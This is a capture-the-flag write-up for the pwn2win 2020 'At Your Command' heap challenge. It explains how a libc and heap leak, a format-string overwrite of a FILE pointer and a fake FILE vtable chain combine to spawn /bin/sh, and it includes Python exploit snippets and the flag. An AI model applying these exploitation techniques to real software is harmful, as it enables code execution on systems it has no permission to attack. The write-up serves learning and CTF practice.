 # At Your Command

This was a pwnable challenge from pwn2win 2020.

Checksec reveals that the binary has all protections enabled:
```bash
$ checksec command
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Additionally, `libc 2.27` was provided together with the challenge binary.

When running the binary, the classic CTF style menu is shown.

```bash
$ ./command
Welcome to the command system
=============================
Your name: myname
Welcome myname

Choose an option:
1. Include command
2. Review command
3. Delete command
4. List commands
5. Send commands
```

* `Include`: Add a new chunk of memory consisting of an integer `priority` and reading 0x170 chars into the 0x180 large char buffer `command`
* `Review`: Show a command at the provided index
* `Delete`: Delete the command at the provided index  
* `List`: Show all registered commands
* `Send`: Open a file on the filesystem and write all commands to disk, then exit the program.

The command struct used by all those commands looks like this:

```c
struct __attribute__((aligned(8))) command_t
{
  __int64 priority[1];
  char command[0x180];
};
```

There are two bugs in the program. First in the delte function, only the first 8 bytes (`priority`) of the `command_t` struct are set to `0`:

```c
int __fastcall delete(command_t **mem)
{
  command_t *index; // rax
  int idx; // [rsp+1Ch] [rbp-4h]

  printf("Command index: ");
  LODWORD(index) = memset16_fgets16_atoll();
  idx = (int)index;
  if ( (int)index < 0 || (int)index > 9 )
    return (int)index;
  index = mem[(int)index];
  if ( !index )
    return (int)index;
  free(mem[idx]);
  mem[idx] = 0LL; // only sets first 8 bytes to 0.
  LODWORD(index) = puts("The command has been successfully deleted");
  return (int)index;
}
```

This means that all data in the `command` field persists. 

Recall, how a free memory chunk looks like (not tcache, larger than fastbin):

```c
struct malloc_chunk {
  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
```

So, if we can free a chunk into the unsorted bin, it will contain a `bk` pointer at the start of the `command` field when it is allocated again.
This pointer will point into the `main_arena`, which is in `libc`.

First we allocate 10 chunks. Then we free them in reverse order, so they do not coalesce with the wilderness. The first 7 chunks go into the `0x190` tcache, the last 3 will be merged together to a 0x4b0 chunk in the unsorted bin. This last chunk will contain the `fd` and `bk` pointers into `libc`.

We now empty the tcache by allocating 7 chunks. The next allocation will now split the 0x4b0 chunk and take `0x190` from it for the 8th allocataion. By providing only 1 char to the `command` field, only the LSB of the  `bk` pointer will be overwritten. Using `review`, the `bk` pointer can be leaked and the `libc` base address can be determined from there. Note, that by overwriting the LSB with a constant value, the offset from the slightly overwritten `bk` to `libc` base will still always remain the same.

In code, this looke like this:
```python
# fill tcache and prepare large chunk for libc and heap leak
for i in range(10):
    include(i, "A"*8)
for i in range(10):
    delete(9-i)

# fill tcache
for i in range(7):
    include(i, "B")

# leak libc address from arena pointers (1 byte overwrite)
include(7, "C")
leak = review(7, True)
libc.address = leak - 0x3ecf43 # offset to base of libc
log.success("Libc base: " + hex(libc.address))
```

For this challenge, we do not necessarily need a heap leak. We did it anyway, as having more information never hurts.
Remember that we allocated and freed 10 chunks and not only 8, so that we would have a large chunk (0x4b0) in the unsorted bin. When the 8th allocation happens, malloc will see that there is no chunk of size 0x190 in `tcache`. Then it will notice that it has no chunk of that exact size in the unsorted bin. Thus, it will move the `0x4b0` sized chunk into the large bin. When this happens, it will write `fd_nextsize` and `bk_nextsize` into the 3rd and 4th address of the chunk. As currently there is only one large bin in use, they both will point the the chunk itself, meaning they contain heap pointers. Now, malloc will split the `0x4b0` chunk and take `0x190` from it to satisfy our request.

This chunks looks as follows:
```bash
gef>  x/32gx 0x55891fa40250
0x55891fa40250:	0x0000000000000000	0x0000000000000191 # header
0x55891fa40260:	0x0000000000000000	0x00007f21289ac043 # 0 in priority field, bk ptr
0x55891fa40270:	0x000055891fa40250	0x000055891fa40250 # fd_nextsize, bk_nextsize -> heap ptrs
0x55891fa40280:	0x0000000000000000	0x0000000000000000
```

Thus, by providing a command of length 8, we can overwrite the bk pointer and leak the heap pointer:

```python
# free chunk again
delete(7)
# overwrite bk pointer so we can leak heap ptrs 
include(7, "D"*8)
heap = review(7)
log.success("Heap: " + hex(heap))
```

Now that we have a heap and libc leak, we want to get code execution. The `send` function has a format string vulnerability, when it uses `snprintf` to directly print the provided username of length 0xC. 

```c
 for ( i = 0; i <= 9; ++i ) //store all commands
  {
    if ( mem->priority[i] )
      fprintf(*stream, "%lld:%s\n", *(_QWORD *)mem->priority[i], mem->priority[i] + 8);
  }
  snprintf(&src, 0xCuLL, name); // vulnerable
  strcpy(&s, "Mr. ");
  strcat(&s, &src);
  printf("You command %s!\n", &s);
```


Also recall, that `send` opens a FILE, to dump the content of all commands. Our exploit strategy now is to create a fake FILE on the heap, in one of the `command_t` chunks and use the format string vulnerability to change the original FILE pointer to point to our fake FILE.
 
The stack looks like this before the `snprintf` call:
```bash
x/32gx $rsp
0x7ffe8e8748e0:	0x00007ffe8e874940	0x00007ffe8e874950
0x7ffe8e8748f0:	0x0000000a56b3f080	0x0000000000000000
0x7ffe8e874900:	0x0000000000000000	0x0000000000000000
0x7ffe8e874910:	0x0000000000000000	0x0000000000000000
0x7ffe8e874920:	0x00007ffe00000000	0xef9dae9836814800
0x7ffe8e874930:	0x00007ffe8e8749b0	0x000056195693e500
0x7ffe8e874940:	0x00005619586bf3f0	0x000000000000000c # FILE pointer, size of 0xc
0x7ffe8e874950:	0x00005619586bf710	0x00005619586bf8a0 # the 10 command_t ptrs
0x7ffe8e874960:	0x00005619586bfa30	0x00005619586bfbc0
0x7ffe8e874970:	0x00005619586bfd50	0x00005619586bfee0
0x7ffe8e874980:	0x00005619586c0070	0x00005619586bf260
```
The FILE pointer can be overwritten using `%4$hn`. Now we need to know what value to write there. The bottom 3 nibbles (half a byte) will always stay the same, but the next nibble will be affected by ASLR. We can now either bruteforce it with a 1/16 chance, or use some format string black magic. We specify `%*19$c%4$hn` as the payload.
`%*19$c` will read the value at `0x7ffe8e874958`, containing the pointer to the fake FILE, and create a padding (`*`) of that length, effectively writing that number into `0x7ffe8e874940` using `%4$n`. The offset 19 was discovered using GDB and trial and error. If someone knows why it's this exact offset, let me know!

After the snprintf, the stack looks like this. We notice, that the FILE pointer has been changed and now points to chunk1:

```bash
x/32gx $rsp
0x7ffe8e8748e0:	0x00007ffe8e874940	0x00007ffe8e874950
0x7ffe8e8748f0:	0x0000000a56b3f080	0x0000000000000000
0x7ffe8e874900:	0x2020202020202020	0x0000000000202020
0x7ffe8e874910:	0x0000000000000000	0x0000000000000000
0x7ffe8e874920:	0x00007ffe00000000	0xef9dae9836814800
0x7ffe8e874930:	0x00007ffe8e8749b0	0x000056195693e500
0x7ffe8e874940:	0x00005619586bf8a0	0x000000000000000c # modified FILE ptr, same as chunk1
0x7ffe8e874950:	0x00005619586bf710	0x00005619586bf8a0 # chunk0, chunk1
0x7ffe8e874960:	0x00005619586bfa30	0x00005619586bfbc0
0x7ffe8e874970:	0x00005619586bfd50	0x00005619586bfee0
0x7ffe8e874980:	0x00005619586c0070	0x00005619586bf260
```

We now control the FILE through chunk 1. In libc versions up to 2.23 it was possible to create a fake vtable to execute arbitrary commands. In libc 2.27 this is no longer possible.

But there exists an article that explains how creating a fake `vtable` that will call `_IO_str_overflow` it is possible to get code execution: https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/. I highly recommend you to thoroughly read that article, it is very informative. 

In summary, it describes how to change `(char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);` to `fp->system("/bin/sh")`. 

Thus, we prepare the fake FILE in such a way, that `system("/bin/sh")` will be executed, once the FILE is closed.

We can now run the exploit, which will give us a shell, allowing us to read the flag: `CTF-BR{_wh4t_4_fUn_xpl_ch41n_mY_c0mm4nd3r_}`!

(The full exploit script is included in the Github repository)
